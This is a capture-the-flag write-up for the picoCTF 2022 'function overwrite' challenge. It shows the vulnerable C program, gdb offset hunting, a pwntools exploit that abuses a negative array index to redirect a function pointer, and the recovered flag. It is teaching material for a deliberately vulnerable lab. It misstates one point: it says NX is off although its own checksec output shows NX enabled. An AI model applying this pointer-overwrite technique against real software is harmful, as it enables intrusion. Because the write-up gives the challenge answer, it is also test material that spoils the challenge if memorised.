

# function overwrite - picoCTF 2022 - CMU Cybersecurity Competition
Binary Exploitation, 400 Points

## Description


 
## function overwrite Solution

Let's observe the attached file [vuln.c](./vuln.c):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}

void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};

void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
 
int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

Let's run ```checksec``` on the attached file [vuln](./vuln):
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/function_overwrite]
└──╼ $ checksec vuln
[*] '/pictoctf2022/binary_exploitation/function_overwrite/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Partial RELRO, No canary and no PIE and also no NX.

By reading the code we can see that we have [Write-Where-What](https://www.martellosecurity.com/kb/mitre/cwe/123/) meaning that we ability to write an arbitrary value to an arbitrary location.

We can see that on ```vuln``` function:
```c
...
if (num1 < 10)
{
  fun[num1] += num2;
}
...
```

As we can see, ```check``` pointer point to ```hard_checker``` function, If we can change it to ```easy_checker``` we can fill the ```story``` array with values which the sum will be ```1337```.

First, Let's find the offset between ```fun``` to ```check``` using ```gdb```:
```console
gef➤  info variables 
All defined variables:

Non-debugging symbols:
...
0x0804c040  check
...
0x0804c080  fun
...
```

The offset between ```0x0804c080``` to ```0x0804c040``` is ```64``` bytes, ```fun``` is ```int``` array, meaning that we need to access to ```fun[-64/sizeof(int)]``` to point to the address of ```check``` pointer.

Let's check the address of ```hard_checker``` and ```easy_checker```:
```console
gef➤  x 0x0804c040
0x804c040 <check>:	0x08049436
gef➤  p easy_checker 
$20 = {<text variable, no debug info>} 0x80492fc <easy_checker>
gef➤  p hard_checker 
$21 = {<text variable, no debug info>} 0x8049436 <hard_checker>
```

As we can see, ```check``` point now on ```0x08049436``` which is the address of ```hard_checker```.

The offset between ```easy_checker``` to ```hard_checker``` is ```0x08049436-0x80492fc``` which is ```314```, meaning that we need to subtract from ```check``` 314.

So according that, the values of ```num1``` is ```-64/sizeof(int)=-16``` and ```num2``` is ```-314```.

The ```story``` array should be ```~~~~~~~~~~M```, The value of ```~``` is ```126``` and of ```M``` is ```77``` so ```126*10+77=1337```.

Let's solve it using [pwntools](https://docs.pwntools.com/en/stable/intro.html):
```python
from pwn import *

elf = ELF('./vuln')

if args.REMOTE:
    p = remote('saturn.picoctf.net', 54525)
else:
    p = process(elf.path)

story_buffer = "~"*10+"M" # =1337

p.sendlineafter('>>', story_buffer)
print(p.recvuntil('10'))
p.sendline('-16 -314') # num1=-16 to access to check from fun pointer, -314 is the offset between hard_checker to easy_checker
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/function_overwrite]
└──╼ $ python3 exp_rop.py REMOTE
[*] '/pictoctf2022/binary_exploitation/function_overwrite/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/usr/lib32/libc-2.31.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to saturn.picoctf.net on port 54525: Done
b' On a totally unrelated note, give me two numbers. Keep the first one less than 10'
[*] Switching to interactive mode
.
You're 1337. Here's the flag.
picoCTF{0v3rwrit1ng_P01nt3rs_f61460f0}
```

And we get the flag ```picoCTF{0v3rwrit1ng_P01nt3rs_f61460f0}```.